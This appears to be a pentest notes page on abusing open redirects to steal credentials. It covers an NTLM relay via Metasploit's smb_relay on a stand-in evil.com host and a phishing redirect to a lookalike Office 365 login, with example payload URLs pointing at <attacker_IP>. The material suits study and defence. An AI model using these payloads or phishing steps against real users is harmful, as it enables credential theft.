 # Siphon Credentials

## NTLM Relay

An attacker could exploit an open redirect by combining Metasploit SMB relay and the open redirect flaw. The attacker would set up `exploits/windows/smb/smb_relay` on evil.com and redirect to `\\evil.com\c$`. When the redirect occurs, the victim will to try to open a network share and thus send over their windows credentials. This attack only works on victims that is using Internet Explorer.  
  
```
https://example.com/?u=\\<attacker_IP>\C$
```

## Phishing Redirect

When a user clicks a link in an email, they are taught to first hover the link and read where it goes. If the link points to a website they trust, it is very likely that they will follow the link. Only a really trained eye would react due to a redirection after clicking a trusted link. In fact, redirects are actually very common the case of authentication.  
  
This type of attack that you should be worried about that I mentioned in the introduction. An attack that is almost 100% success that we commonly use looks similarly to this:  
1. The victim gets an email saying "Alice shared a document with you"  
2. The email contains a link to `office365.com`.  
3. The victim clicks the link and gets redirected to `office365.secure.evil.com`. Note that the user is used to being redirected when authenticating due to Single-sign on features.
4. The victim fails to verify the final url and leaks his credentials.
5. The victim is then redirected to the real logon portal where they (presumably) successfully log in.
  
It is not only hard to detect the attack for the victim, but in many cases also for the blue team who tries to find the phishing email / patient zero from the bigger picture. For example:

```
https://example.com/?u=http[s]://<attacker_IP>/login
```

---
## References

- [Stevetabernacle: Open redirects - the vulnerability class no one but attackers cares about](https://web.archive.org/web/20190104183245/https://stevetabernacle.github.io/blog/open-redirects-the-vulnerability-class-no-one-but-attackers-cares-about/)